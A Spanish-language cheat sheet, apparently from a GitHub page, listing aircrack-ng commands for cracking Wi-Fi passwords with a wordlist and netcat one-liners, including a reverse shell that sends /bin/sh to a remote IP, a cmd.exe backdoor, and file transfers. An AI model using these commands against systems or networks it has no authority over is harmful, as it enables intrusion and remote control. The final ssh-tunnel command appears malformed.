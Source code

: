 airodump-ng -c 1 --bssid XX:XX:XX:XX:XX:XX:XX -w output wlan1
aircrack-ng -b 00:14:6C:7E:40:80 output.cap -w mydiccionary.txt 
```
Escaneo de Redes Wifi Disponibles 
```
sudo iwlist wlan0 scan | egrep "Cell|ESSID|Signal|Rates"
```

#### Ncat
##### Reverse Shell:

Desarrollador escucha en puerto 4444

```
 nc -lvp 4444 
```

Cliente envía su Shell a la IP del desarrollador

```
nc **IP** 4444 -e /bin/sh
```

##### Backdoor

Ejecutar en el servidor remoto

```
nc -L -p 3001 -d -e cmd.exe
```

##### Servidor web inseguro

```
while : ; do ( echo -ne "HTTP/1.1 200 OK\r\n" ; cat index.html; ) | nc -l -p 8080 ; done
```
##### Chat
```
nc -l -vv -p 5000
nc 192.168.56.1 5000
```
Enviar archivo (inseguro)

```
Receptor escucha:
nc -l -p 9999 > test.txt

El otro lado envía:
nc 192.168.0.1 9999 < test.txt
```

Enviar archivo via ncat por tunel ssh (Seguro)

```
nc myDocument.pdf | ssh me.myserver.com nc -l -p 20000
# cliente
nc me.myserver.com 20000 > myDocument.pdf
